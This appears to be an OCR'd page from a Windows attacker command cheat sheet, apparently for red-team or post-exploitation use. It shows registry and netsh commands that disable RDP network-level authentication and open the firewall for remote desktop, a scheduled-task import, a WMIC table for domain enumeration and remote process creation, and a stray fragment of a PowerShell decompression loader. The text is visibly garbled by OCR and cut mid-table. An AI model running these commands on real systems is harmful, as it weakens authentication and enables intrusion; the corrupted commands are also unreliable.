 ### Remove network authentication by adding an exception in the firewall

```text
reg add "HKEY LOCAL t1ACHINE\SYSTEt1\CurentControlSet\Control \Terminal
Server\WinStations\RDP-TCP" /v UserAuthentication /t REG_DWORD /d "0" /f 

netsh firewall set service type = remotedesktop mode = enable 
```

### Import task from XML file

```text
schtasks.exe /create /tn t1yTask /xml "C:\MyTask.xml" /f
```

## WMIC command

<table>
   <thead>
     <tr>
       <th style="text-align:left"><b>Command</b>
       </th>
       <th style="text-align:left"><b>Description</b>
       </th>
     </tr>
   </thead>
   <tbody>
     <tr>
       <td style="text-align:left">wmic [alias] get /?</td>
       <td style="text-align:left">List of all features</td>
     </tr>
     <tr>
       <td style="text-align:left">wmic [alias] call /?</td>
       <td style="text-align:left">Callable method</td>
     </tr>
     <tr>
       <td style="text-align:left">wmic process list full</td>
       <td style="text-align:left">process properties</td>
     </tr>
     <tr>
       <td style="text-align:left">wmic startupwmic service</td>
       <td style="text-align:left">start wmic service</td>
     </tr>
     <tr>
       <td style="text-align:left">wmic ntdomain list</td>
       <td style="text-align:left">Domain and DC information</td>
     </tr>
     <tr>
       <td style="text-align:left">wmic qfe</td>
       <td style="text-align:left">List of all patches</td>
     </tr>
     <tr>
       <td style="text-align:left">wrnic process call create &quot;process_name&quot;</td>
       <td style="text-align:left">Run process</td>
     </tr>
    <tr>
       <td style="text-align:left">
         <p>wmic process where name=&quot;process&quot; call</p>
         <p>terminate</p>
       </td>
       <td style="text-align:left">Delete process</td>
     </tr>
     <tr>

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"